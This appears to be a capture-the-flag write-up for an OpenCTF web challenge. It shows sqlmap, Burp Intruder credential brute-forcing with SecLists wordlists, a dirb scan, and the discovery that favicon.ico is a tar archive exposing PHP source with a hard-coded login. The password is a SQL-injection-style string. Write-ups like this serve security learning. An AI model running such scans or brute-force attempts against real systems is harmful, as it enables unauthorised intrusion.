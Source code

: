 # webdev

Visiting the webpage we are presented with a simple login form:

```
<html>
<head>
<title>login</title>
</head>
<body>
<h3>missing login/password</h3>
<form method="post">
<label for="login">login</label> <input type="text" name="login" /><br />
<label for="password">password</label> <input type="password" name="password" /><br />
<button type="submit">Login</button>
</form>
</body>
</html>
```

## sqlmap

We try logging in using credentials admin:admin and use burp to capture the
request. The login is not successful. Selecting the request, we can copy the
raw content to a file naming it login.req.

```
POST / HTTP/1.1
Host: webdev.openctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://webdev.openctf.com/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

login=admin&password=admin
```

We start sqlmap running in the background to look for sql injections:

```
$ sqlmap --random-agent --level 5 --risk 3 --force-ssl -r login.req
```

## burp intruder

While sqlmap is running, we use burp to setup an intruder attack to brute force
the login credentials. Since we didn't leak any information about possible
usernames, we grab lists of default usernames and passwords from
https://github.com/danielmiessler/SecLists:

* Usernames/top-usernames-shortlist.txt
* Passwords/darkweb2017-top100.txt

## dirb

Having sqlmap and burp intruder running, we start dirb to look for files and
subdirectories to see if we can increase the attack surface:

```
$ dirb https://webdev.openctf.com/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Aug 12 17:13:54 2018
URL_BASE: https://webdev.openctf.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://webdev.openctf.com/ ----
+ http://webdev.openctf.com/index.php (CODE:200|SIZE:326)
+ http://webdev.openctf.com/favicon.ico (CODE:200|SIZE:3584)
```

## ???

Our background tasks of sqlmap, burp and dirb didn't return anything
interesting. sqlmap didn't find any potential sql injections, burp intruder
didn't find any valid logins and dirb found only index.php and favicon.ico.

One thing to note is that favicon.ico had an unusual file size of 3.5K.

## favicon.ico

We wget the favicon.ico and see that it's a tar archive containing two files:

```
$ wget https://webdev.openctf.com/favicon.ico
$ file favicon.ico
favicon.ico: POSIX tar archive
$ tar tf favicon.ico
index.php
wwwbackup.sh
```

We extract and view the files:

```
$ tar xvf favicon.ico
index.php
wwwbackup.sh
```

### wwwbackup.sh

```
#!/bin/sh

tar cf *

```

### index.php

```
<?php
$message = 'please login';

if ($_POST) {
  if ((!empty($_POST['login'])) && (!empty($_POST['password']))) {
    if ($_POST['login'] === 'scavengerhunt') {
      if ($_POST['password'] === "'; drop database dignity; --") {
        $message = hash_file('md5', 'favicon.ico');
      } else {
        $message = 'invalid password';
      }
    } else {
      $message = 'invalid login';
    }
  }
} else {
  $message = 'missing login/password';
}
?>
<html>
<head>
<title>login</title>
</head>
<body>
<h3><?php echo($message); ?></h3>
<form method="post">
<label for="login">login</label> <input type="text" name="login" /><br />
<label for="password">password</label> <input type="password" name="password" /><br />
<button type="submit">Login</button>
</form>
</body>
</html>
```

We use the username `scavengerhunt` and password `'; drop database dignity; --`
to login. When doing this we receive the string
`7c6515ecfe20b1004f89d46849bad893` from the server. This matches the md5sum
when hashing the file locally:

```
$ md5sum favicon.ico
7c6515ecfe20b1004f89d46849bad893  favicon.ico
```

Submitting the md5sum as the flag we receive our points!
